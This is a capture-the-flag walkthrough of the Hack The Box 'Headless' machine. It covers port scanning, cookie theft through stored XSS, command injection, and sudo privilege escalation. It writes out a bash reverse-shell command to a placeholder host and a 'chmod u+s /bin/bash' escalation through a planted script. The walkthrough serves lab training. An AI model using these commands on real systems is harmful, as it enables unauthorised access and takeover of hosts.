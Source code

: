 ![Headless](https://github.com/amalcew/htb-writeups/assets/73908014/9951c127-994a-4993-b32a-76f17c72ea1e)

## Reconnaissance & port scanning

Let's start testing the box with standard port scan:

```bash
# Nmap 7.94SVN scan initiated Fri Apr 12 16:49:35 2024 as: nmap -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.8
Nmap scan report for headless.htb (10.10.11.8)
Host is up, received conn-refused (0.025s latency).
Scanned at 2024-04-12 16:49:35 CEST for 97s
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXBmWeZYo1LR50JTs8iKyICHT76i7+fBPoeiKDXRhzjsfMWruwHrosHoSwRxiqUdaJYLwJgWOv+jFAB45nRQHw=
5000/tcp open  upnp?   syn-ack
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK

      ... SNIP ...
```

Interestingly, there is no open port 80, but there is enigmatic `5000 upnp` port open which returns a HTTP fingerprint. Looks like the box uses uncommon port for some website, let's check this.
After adding the IP to the `/etc/hosts/`, I've checked the discovered port:

![01-initial_webpage](https://github.com/amalcew/htb-writeups/assets/73908014/f1a1624b-cff8-413b-afee-115ae4ab2b8e)

Yup, that's a website! Let's continue the enumeration process with fuzzing the directories:

```bash
> ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://headless.htb:5000/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://headless.htb:5000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 117ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 77ms]
                        [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 155ms]
:: Progress: [87664/87664] :: Job [1/1] :: 441 req/sec :: Duration: [0:06:20] :: Errors: 0 ::

```

`ffuf` discovered two pages, `dashboard` and `support`. The first page is restricted and returns `401` error 

![image](https://github.com/amalcew/htb-writeups/assets/73908014/02df8610-83d2-40f9-a072-063fd1320891)


But the second one looks like a next step in this puzzle, as the page displays contact form.

![02-contact](https://github.com/amalcew/htb-writeups/assets/73908014/428190e3-6d4a-4878-a70c-27e27f7f9d74)

After submiting a form, the website redirects to the same form with no information if the message was delivered. What is interesting, when submitting message `{{ 4 * 4 }}` (to check if there is some SSTI or similar), the website returns this page:

![03-hacking_detected](https://github.com/amalcew/htb-writeups/assets/73908014/fae73d7f-008a-4c7c-b6e2-22ed564ed6d0)

This means that the website is indeed processing the message and that is a good sign. The other thing that I've noticed is the presence of `is_admin` cookie that does not look like it is changing, every time I make a request, the cookie is still the same:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/922916d9-ac2c-4048-b16e-162a2832227e)

This subtle nudge gives a hint, that the way to penetrate the website will require stealing the administrator's cookie, someway. Looking again at the 'Hacking detected' page, we can see that the incident has beem sent to the administrator for investigation

![image](https://github.com/amalcew/htb-writeups/assets/73908014/27e0f744-2634-4648-9f40-d0b51bb59db0)

## Initial foothold

### XSS cookie exfiltration

In theory, if the server recognizes the malicious input inside 'message' field, it means that it can be vulnerable to XSS attacks. There is a way to steal the cookies using XSS attack on the website, documented in [this post](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) and on [Portswigger's Academy](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies).

The way it is done is relatively simple. Threat actor needs to send a malicious content to the server which will be triggered when someone displays a page that contains it. This type of attack is called **stored XSS**, as the payload lays on the server and is activated by the victim.
After many attempts I've managed to intercept the cookie encoded in base64, by using some techniques from Portswigger's Lab and from the post:

![04-exfiltrated_cookie_1](https://github.com/amalcew/htb-writeups/assets/73908014/ce1ed470-814f-40fd-9405-11098e14aeee)

The probable reason why the payload was required to be sent inside `User-Agent` field is the fact, that the `Hacking detected` page contains this field as one of the evidences, but not `message` content. That's why no attempt with stealing the cookie by using the `message` field was successful.

The output now needs to be decoded from base64 and inserted into the cookie value:

```bash
> echo **** | base64 -d
is_admin; is_admin=ImFk**********************XpH0 
```

![05-dashboard](https://github.com/amalcew/htb-writeups/assets/73908014/ef08bc73-4754-4860-9666-f92b96e5cbad)

Nice! The dashboard allows to pass a date that is used to generate a dummy report. 

### Command injection

It took me a while to leverage this field using Burp Suite, but after some tinkering I've found out, that this field is vulnerable to command injection:

![06-command_injection](https://github.com/amalcew/htb-writeups/assets/73908014/c6a58aee-2fed-4c4a-8705-d30695f31bfb)

As we know the vulnerability, the next step is to gain access to the `dvir` user by spawning reverse shell. To do this we can use simple `bash` shell, encoded as base64:

```bash
> echo 'bash -i >& /dev/tcp/xx.xx.xx.xx/1234 0>&1' | base64 -w 0
YmFz****************************************************Cg==
```

and passed in Burp as payload, with some URL encoding of the key characters:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/b3e95b10-26b1-4c0d-97b5-4d7a9c06717a)

```bash
> nc -lnvp 1234                                                  
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.8] 51764
bash: cannot set terminal process group (1371): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

This was sufficient to read the user flag:

```bash
bash-5.2$ cat user.txt  
cat user.txt
c0****************************22
```

## Root privileges escalation

Next step is to discover potential ways to escalate privileges. Simple check on sudo permissions was sufficient:

```bash
bash-5.2$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

As I found out, the `syscheck` script is trying to call some database initialization script that cannot be found on the box:

```bash
bash-5.2$ cat /usr/bin/syscheck
#!/bin/bash

... SNIP ...

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

As the script runs with sudo privileges, we can create the `initdb.sh` script and insert a content that would give us an access to elevated shell, like:

```bash
bash-5.2$ echo 'chmod u+s /bin/bash' > initdb.sh
bash-5.2$ chmod +x initdb.sh 
```

And execute the `syscheck` with sudo:

```bash
bash-5.2$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.03, 0.03, 0.00
Database service is not running. Starting it...
bash-5.2$ /bin/bash -p
bash-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
```

This way we can access the root flag:

```bash
bash-5.2# cat /root/root.txt
1e0d************************0238
```
